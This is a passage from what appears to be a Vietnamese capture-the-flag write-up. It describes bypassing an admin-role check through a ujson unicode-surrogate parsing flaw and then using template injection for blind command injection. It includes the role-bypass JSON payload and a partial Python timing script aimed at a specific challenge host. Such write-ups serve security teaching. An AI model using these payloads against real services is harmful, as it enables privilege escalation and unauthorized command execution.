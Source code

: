 do việc insert thằng cả role ta control được vào db nên ta sẽ khai thác đoạn này.

Về việc bypass "admin" có vẻ khá khó nhưng ta thấy ujson sẽ sử lí json sau khi kiểm tra -> searching nhanh thấy nó dính `Improper Handling of Syntactically Invalid Structure` [bug](https://security.snyk.io/vuln/SNYK-PYTHON-UJSON-2942122)

Như poc ta thấy thì đối với kí tự unicode thì sẽ bị bỏ qua

![image](https://hackmd.io/_uploads/HkpCUqsg1x.png)

ta bypass thành công admin role và nhận jwt để access render

```
{"username":"hihi","password":"haha","role":"admi\uD800n"}
```

Truyền data template ssti để blind cmdi



POC:

```
import requests
import time

session = requests.session()
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@#_*&@!^*{}"
burp0_url = "http://152.69.210.130:64830/render"
payload = ""

burp0_cookies = {
    "COOKIE_SUPPORT": "true", "GUEST_LANGUAGE_ID": "en_US", "COMPANY_ID": "10155",
    "ID": "50367a6f334147512f326b73467055596a33313330773d3d",
    "USER_UUID": "\"Z7hRSaNGp6mfY1hAgHY5013+Z80P3zscPYqAa4cOB00=\"",
    "LOGIN": "6869686940676d61696c2e636f6d",
    "PASSWORD": "352b67744e7066474a422b653753634d4572307148513d3d",
    "REMEMBER_ME": "true",
    "SCREEN_NAME": "70672b5950377a5147796569624c6f734968704556513d3d",
    "jwt_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImxtYW8iLCJyb2xlIjoiYWRtaW4ifQ.IIqnwm7Sb09GgWy0SDEkBgsLzbHg66_iCA5DzmiRkJA"
}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Referer": "http://localhost:8082/login",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
    "Content-type": "application/json",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Priority": "u=0, i"
}

for i in range(1, 100):
    for char in alphabet:
        burp0_json = payload

        start_time = time.time()
        res = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
        end_time = time.time()
```